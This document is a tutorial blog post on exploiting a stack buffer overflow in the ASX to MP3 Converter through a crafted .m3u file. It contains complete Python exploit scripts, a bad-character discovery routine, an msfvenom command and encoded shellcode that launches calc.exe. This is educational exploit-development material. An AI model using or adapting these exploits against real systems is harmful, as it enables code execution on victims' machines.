






:orphan:
(windows-exploitation-stack-overflow-part-2)=

# Windows Exploitation: Stack Overflow Part 2

Let's continue to considering the most fundamental buffer overflows on Windows are known as _vanilla EIP overwrites_ or _direct EIP overwrites_, in which the `EIP` is immediately overwritten after a sufficient amount of data is supplied. In the [first part of our blog post](windows-exploitation-stack-overflow-part-1), we inserted the breakpoint instruction just before the `C`- buffer. We will also regenerate an exploit file and restart the application within the debugger.

```python
shellcode = "\xcc"

buffer = "http://"
buffer += "A" * 17417
buffer += "\x6e\x9d\x92\x55" # will become EIP 0x55929d6e
buffer += shellcode # breakpoint
buffer += "C" * 600

f = open("exploit.m3u", "w")
f.write(buffer)
f.close()
```

Sadly, we did not land in the buffer zone. However, the `ESP` does not precisely point to the beginning of the `C`-buffer. We touched down within this buffer.

_How can we figure out where are we now?_

Listed below are potential solutions to help us determine where we are:

- Reexamine the crash using `pattern_create/offset` and calculate the offset for what the `ESP` is pointing to (slow).

- Since there is ample room, we can pad the beginning of the `C`-buffer with `NOP`s prior to setting the breakpoint. Thus, the program will execute `NOP`s before proceeding directly to the breakpoint.

Choosing the second option, we will modify the exploit. We select a `NOP` number that is large enough to produce a secure and substantial `NOP` slide (`50` in this case).

```python
shellcode = "\xcc"

buffer = "http://"
buffer += "A" * 17417
buffer += "\x6e\x9d\x92\x55" # will become EIP 0x55929d6e
buffer += "\x90" * 50 # NOPs
buffer += shellcode # breakpoint
buffer += "C" * 600

f = open("exploit.m3u", "w")
f.write(buffer)
f.close()
```

The following appears in the debugger after regenerating the file, restarting the application under the debugger, and feeding the file to it.




We successfully redirected code execution to the specified location. Let's see if we can now position the shellcode.

During a software crash, you may discover that your shellcode does not function, despite having been correctly delivered to the attacked software. You may find, upon further investigation, that some of the bytes sent in the buffer have been altered. This is a frequent occurrence that may be caused by the following:

- Some non-standard characters are treated as string terminators by the copying function.
- The target application modifies characters.

For example, the underlying code might look like the following:

```cpp
process_user_data() {
  tmp = user_input;
  sanitized_input = sanitize(tmp);
  strcpy(application_memory, sanitized_input);
}
```

> it's really just pseudocode

In such instances, the memory will be overwritten with a character set that differs from the one provided in the buffer.

Depending on which characters are eliminated, this may make exploitation more challenging.

By modifying the shellcode in a specific way, character transformation can be omitted. Transformation of shellcode can be performed manually or automatically. This time, let's do it automatically.

When generating shellcode using the `msfvenom` tool, you
can use the `-b` parameter to specify bytes that should not
be used during shellcode generation.

The `msfvenom` generator will use a different instruction set that does not contain opcodes corresponding to prohibited bytes when processing shellcode.

You should anticipate such shellcode to be significantly larger as a side effect. The greater the number of characters that must be omitted, the lengthier the shellcode.

There are a few notoriously bad characters. The majority of text-processing functions will treat them as string terminators or separators, which will result in the buffer being truncated after these characters. Despite the possibility of encountering non-standard bad character characters, the following are a few of the most common:

- `0x00` - is a common string terminator.
- `0x0a`, `0x0d` - carriage returns, and line feeds might often be treated as line terminators, especially in software that makes use of HTTP or FTP protocols.
- `0xff` - this byte is often interpreted as `EOF` (End Of File)

The simplest way to detect bad characters is to place a complete ASCII table within the buffer and then check the debugger view to see if any of the bytes have been removed or altered.

Frequently, the presence of a bad character may result in the buffer being truncated. The exploit would then need to be modified by removing the bad character from the buffer and resending the data until all bad characters are eliminated.

Let's implement the ASCII table into the exploit buffer:

```python
badchars = (
  "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)
```

Our exploit:

```python
shellcode = "\xcc"

badchars = (
  "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)

buffer = "http://"
buffer += "A" * 17417
buffer += "\x6e\x9d\x92\x55" # will become EIP 0x55929d6e
buffer += "\x90" * 50 # NOPs
buffer += shellcode # breakpoint
buffer += badchars
buffer += "C" * (600 - len(badchars))

f = open("exploit.m3u", "w")
f.write(buffer)
f.close()
```

After re-creating the exploit file and re-launching the application, we again land at the breakpoint in the exploit buffer:



When examining the stack view, the ASCII buffer is present.

After all the `90`s, there is a `CC` byte, followed by `01, 02, 03`, etc., with the final byte being `0x08`. All others have vanished. As byte `0x09` is missing, we can assume it is a potentially bad character:





Remove byte `0x09` from the ASCII buffer in order to update the exploit. We will then repeat the operation because we suspect that this byte is causing a buffer overflow due to the following:

- The last byte that was not malformed was the byte
  before it.
- This byte itself is malformed.
- All other bytes after it were cut off.

Unfortunately, this didn't help. There is a possibility that there are more bad characters.

In such a situation, we could be forced to verify the exploit character by character, which can be a very tedious process.

In spite of the logical arguments that pointed to `0x09` being a bad character, if the buffer is completely destroyed as it is in this particular case, we can first try to determine if another common bad character is responsible for this mess.

Given that the `m3u` content is written line by line and that `CR` and `LF` bytes are line terminators, it is evident that they will prevent the exploit from working (that is meant to reside in a single line).

Let's restore `0x09` and clear the ASCII buffer of `CRLF`, `0x0a`, and `0x0d`. Then, we will generate a new file, restart the application, reconnect the debugger, and execute the exploit file.

Now that's what we wanted to see: a visible ASCII buffer with its entirety. You can visually verify that no bytes are missing to ensure that all bad characters have been identified:



In the final step, the breakpoint will be replaced with actual shellcode. Let's generate one using msfvenom.
Remember the bad characters:

```bash
msfvenom -p windows/exec cmd=calc.exe -b "\x00\x0a\x0d\x20" -f c
```



```python
shellcode = ("\xbb\xff\xbe\xe1\xd7\xda\xd7\xd9\x74\x24\xf4\x5a\x31\xc9\xb1"
"\x31\x31\x5a\x13\x83\xea\xfc\x03\x5a\xf0\x5c\x14\x2b\xe6\x23"
"\xd7\xd4\xf6\x43\x51\x31\xc7\x43\x05\x31\x77\x74\x4d\x17\x7b"
"\xff\x03\x8c\x08\x8d\x8b\xa3\xb9\x38\xea\x8a\x3a\x10\xce\x8d"
"\xb8\x6b\x03\x6e\x81\xa3\x56\x6f\xc6\xde\x9b\x3d\x9f\x95\x0e"
"\xd2\x94\xe0\x92\x59\xe6\xe5\x92\xbe\xbe\x04\xb2\x10\xb5\x5e"
"\x14\x92\x1a\xeb\x1d\x8c\x7f\xd6\xd4\x27\x4b\xac\xe6\xe1\x82"
"\x4d\x44\xcc\x2b\xbc\x94\x08\x8b\x5f\xe3\x60\xe8\xe2\xf4\xb6"
"\x93\x38\x70\x2d\x33\xca\x22\x89\xc2\x1f\xb4\x5a\xc8\xd4\xb2"
"\x05\xcc\xeb\x17\x3e\xe8\x60\x96\x91\x79\x32\xbd\x35\x22\xe0"
"\xdc\x6c\x8e\x47\xe0\x6f\x71\x37\x44\xfb\x9f\x2c\xf5\xa6\xf5"
"\xb3\x8b\xdc\xbb\xb4\x93\xde\xeb\xdc\xa2\x55\x64\x9a\x3a\xbc"
"\xc1\x54\x71\x9d\x63\xfd\xdc\x77\x36\x60\xdf\xad\x74\x9d\x5c"
"\x44\x04\x5a\x7c\x2d\x01\x26\x3a\xdd\x7b\x37\xaf\xe1\x28\x38"
"\xfa\x81\xaf\xaa\x66\x68\x4a\x4b\x0c\x74")

buffer = "http://"
buffer += "A" * 17417
buffer += "\x6e\x9d\x92\x55" # will become EIP 0x55929d6e
buffer += "\x90" * 50 # NOPs
buffer += shellcode # calc.exe (breakpoint replaced)
buffer += "C" * (600 - len(shellcode))

f = open("exploit.m3u", "w")
f.write(buffer)
f.close()
```

After recreating the exploit file, we can see the calculator
being executed:


Verify that everything is functioning properly by loading the `exploit.m3u` file into the application without attaching a debugger. The calculator will appear once more.

## References

- [ASX to MP3 converter](https://www.exploit-db.com/apps/f4da5b43ca4b035aae55dfa68daa67c9-ASXtoMP3Converter.exe)
- [ASXtoMP3Converter.exe ASX to MP3 3.1.3.7 - '.m3u' Local Buffer Overflow](https://www.exploit-db.com/exploits/42974)

:::{seealso}
Looking to expand your knowledge of vulnerability research and exploitation? Check out our online course, [MVRE - Certified Vulnerability Researcher and Exploitation Specialist](https://www.mosse-institute.com/certifications/mvre-vulnerability-researcher-and-exploitation-specialist.html) In this course, you'll learn about the different aspects of vulnerability research and how to put them into practice.
:::
